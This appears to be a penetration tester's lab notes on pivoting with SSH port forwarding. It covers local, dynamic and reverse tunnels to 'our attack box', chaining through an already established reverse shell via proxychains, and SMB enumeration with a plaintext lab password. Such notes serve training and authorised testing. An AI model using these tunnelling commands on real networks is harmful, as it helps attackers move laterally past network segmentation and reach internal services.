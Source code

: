 ```yaml
---
tags:
  - tool
  - ssh
  - routing
---
```

# ssh

Secure Shell

## Capabilities

### Local Fowarding

```bash
# Connect to 10.4.50.215 and listen on 4455, forwarding to 172.16.50.217:445
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# Connect to 10.4.50.215 and listen on 9999, forwarding all traffic (simulating a SOCKS proxy)
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

### Remote Fowarding (reverse)

```bash
# Connect to our attack box, listen on port 2345, and forward all traffic to 10.4.50.215:5432
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@$OUR_IP

# Connect to our attack box, and act as a SOCKS proxy operating on port 1080
ssh -N -R 1080 kali@$OUR_IP
```

`-N` means no shell

- `-L` think local port forwarding
- `-D` think dynamic port forwarding (SOCKS proxy)
- `-R` think remote port forwarding

In the 2nd example

```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

We are running the `ssh` command on a reverse shell we have already established to `192.168.50.63`. Upon executing the command, `192.168.50.63` essentially becomes a SOCKS proxy for us to send traffic to that will then be forwarded to `10.4.50.215`, and `10.4.50.215` will forward the traffic to its final destination.

We can then use [proxychains](../../../15%20Routing/proxychains.md) to interact with `192.168.50.63` by adding the following to our `/etc/proxychains4.conf`

```bash
# ... At the very bottom of the file, we set the ProxyList to only point to port 9999.
[ProxyList]
socks5 192.168.50.63 9999
```

Now in the following command

```bash
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

The request will first be taken by `proxychains` and fowarded to `192.168.50.63:9999` as specified in our `/etc/proxychains4.conf`. The traffic is then tunneled to `10.4.50.215:9999`, where `10.4.50.215` then fowards it to its final destination of `172.16.50.217:445`.